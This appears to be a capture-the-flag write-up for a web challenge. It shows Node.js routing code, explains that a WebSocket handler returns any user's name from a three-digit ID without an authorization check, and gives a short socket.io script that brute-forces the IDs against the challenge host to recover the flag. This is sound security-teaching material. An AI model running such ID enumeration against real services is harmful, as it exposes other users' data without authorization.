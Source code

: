 ```javascript
	res.sendFile(__dirname + '/html/index.html');
});

app.get('/login',(req,res) => {
	res.sendFile(__dirname + '/html/login.html');
});

app.get('/register',(req,res) => {
	res.sendFile(__dirname + '/html/register.html');
});

app.get('/contest',(req,res) => {
	res.sendFile(__dirname + '/html/contest.html');
});

http.listen(8081,() => {
	console.log('listening on *:8081');
});
```

#### Vulnerablity
The application runs uses Web-Sockets which has a funtionality of registering users. Each user has a random 3 digit ID asscociated with his name and password The flag was stored as name of the admin.
So, the Goal was to get the admin's name.

Also the application has other funtionality which takes the ID and returns the name. 
```javascript
socket.on('reqName',(rand_id) => {
		name = id2Name[parseInt(rand_id)];
		socket.emit("reqNameRes",name);
	});
```
So bruteforcing all the ID's from 100 to 999 could give us the flag (easy-peasy!)

#### Exploit script
```javascript
var io = require('socket.io-client');
var socket = io.connect('http://websites.litctf.live:8000', {reconnect: true});

// Add a connect listener
socket.on('connect', function (socket) {
    console.log('Connected!');
});

socket.on("reqNameRes", (name) => {
    if(name != null && name.startsWith("flag{")){
        console.log("Name: "+name);
        socket.close();
    }
})

for(var i=1; i<1000; i++){
    socket.emit("reqName", i);
}
```
#### Flag
> flag{if_y0u_d1d_not_brut3force_ids_plea5e_c0ntact_codetiger}

